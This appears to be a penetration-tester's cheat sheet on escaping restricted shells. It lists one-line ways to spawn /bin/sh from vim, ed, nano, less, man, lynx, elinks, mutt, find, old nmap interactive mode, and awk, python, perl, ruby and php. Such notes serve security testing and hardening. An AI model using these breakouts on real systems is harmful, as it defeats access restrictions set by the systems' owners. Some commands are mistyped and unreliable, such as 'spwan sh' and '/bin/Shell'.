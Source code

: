 ```yaml
---
title: "shell-escaping"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## editors 

### vim 

```
:!/bin/sh
```

```
:set shell=/bin/sh
:shell
```

### ed

```
!'/bin/sh'
```

### ne

```
Load Prefs
```

### nano

```
CTRL+R
CTRL+X
reset; bash 1>&0 2>&0
```

## Pager


### More/Less

Open a file that is larger then your terminal. 

Run `!'sh'`

### man

Run `!'sh'`

This to works sinse man uses more/less.

### pinfo

press `!` followed by the command you want to run.

### Console Browsers

pagers can also be used a editors in console browsers.

#### links

`FILE > OS Shell`

#### lynx

open webpage.  
press `o`  
configure vim as editor

or

```
lynx --editor=/usr/bin/vim www.google.com
```

#### elinks

```
export EDITOR=/usr/bin/vim
```

open a site with a textbox. 
Press `ENTER` and then `F4`. 
elinks will use vim.

### mutt

open mutt  
press `!`  
enter `/bin/Shell`

### find

when ever it finds udp,xml it will cd to root and run ls.

`find . -name udp.xml -exec awk 'BEGIN {system("cd /root; ls")}' \;`

### nmap

before version r17131

```
nmap --interactive
!sh
```

## Programming Techniques

### awk

`awk 'BEGIN {system("/bin/sh")}'`

### expect

```
Expect
spwan sh
sh
```

### python

`python -c 'import os; os.system("/bin/sh");'`

### ruby

```
irb
exec 'bin/sh'
```

### perl

`perl -e 'system("sh -i")'`  
`perl -e 'exec("sh -i")'`

### php

```
php -a
exec("sh -i");
```
